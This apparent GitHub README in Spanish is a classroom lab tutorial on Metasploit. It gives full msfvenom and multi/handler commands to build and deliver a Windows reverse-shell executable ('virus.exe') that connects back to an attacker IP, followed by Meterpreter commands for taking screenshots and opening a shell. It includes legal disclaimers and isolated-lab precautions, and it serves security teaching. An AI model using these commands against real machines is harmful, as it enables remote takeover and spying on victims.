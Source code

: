 # ✅ **Payload malicioso en Windows 10 con Metasploit**
______________________________________
## ⚠️ **Aviso Legal / Disclaimer**
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
________________________________________
Aclaración: Este método no necesita que Windows 10 sea vulnerable. Simplemente simula lo que pasaría si un usuario hace clic en un archivo malicioso, como ocurre con malware real.
______________________________________
## 🧰 **Requisitos del entorno de laboratorio**
- 💻 [Kali Linux (máquina atacante).](https://www.kali.org/get-kali/#kali-platforms)
-	🧱 [Máquina víctima: Windows 10  sin parches adicionales de seguridad, si es posible.](https://archive.org/details/windows-10-original)
-	Ambas máquinas en la misma red (virtual o real)
-	Desactivar antivirus y firewall en Windows 10 (solo para pruebas)
________________________________________
## 🧪 **PASO A PASO: Payload con Metasploit en Windows 10**
________________________________________
**🔹1. Crear el archivo malicioso con msfvenom**
<pre> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o virus.exe </pre>
-	**LHOST:** [IP_de_Kali]
-	**LPORT:** el puerto por donde escucharás
-	**-f exe:** formato ejecutable de Windows
- **-o:** nombre del archivo
________________________________________
**🔹 2. Iniciar Metasploit**
<pre>msfconsole</pre>
________________________________________
**🔹 3. Configurar el listener (handler)**
<pre> use exploit/multi/handler </pre>
<pre> set PAYLOAD windows/meterpreter/reverse_tcp </pre>
<pre> set LHOST [IP_PC_CON_KALI] </pre>
<pre> set LPORT 4444 </pre>
<pre> exploit </pre>
________________________________________
**🔹 4. Enviar o ejecutar el archivo en Windows 10**
-	Copia el archivo **virus.exe** a la máquina Windows (por red compartida, USB, etc.).
-	Ejecuta el archivo manualmente (como si un usuario lo abriera por accidente).
________________________________________
**🔹 5. Resultado esperado**
En Kali deberías ver algo como:
```bash
[*] Meterpreter session 1 opened
```

Ahora puedes interactuar con la víctima:
```bash
meterpreter > sysinfo
meterpreter > screenshot
meterpreter > shell
```
________________________________________
## ⚠️ Precauciones para clase
- No conectar las máquinas a Internet.
-	Ejecutarlo en máquinas virtuales cerradas y restaurables.
-	Dejar en claro que esto no explota una falla del sistema, sino que aprovecha un descuido del usuario (ingeniería social).
________________________________________
## 📚 ¿Qué se enseña con este exploit?
-	Cómo se usa Metasploit en la práctica.
-	Cómo un atacante puede obtener acceso con un simple ejecutable.
-	La importancia de no ejecutar archivos desconocidos.
-	Cómo funciona una shell reversa (reverse shell).
## 🧑‍🏫 Autor

Explicación elaborada por [Sebastian Peinador](https://www.linkedin.com/in/sebastian-j-peinador/) para propósitos didácticos y de investigación en ciberseguridad ofensiva.
________________________________________
## 📄 Licencia

Este material se distribuye bajo la licencia [MIT](LICENSE).
________________________________________

> Si te resulta útil, ¡no olvides darle ⭐ al repo o compartirlo!	
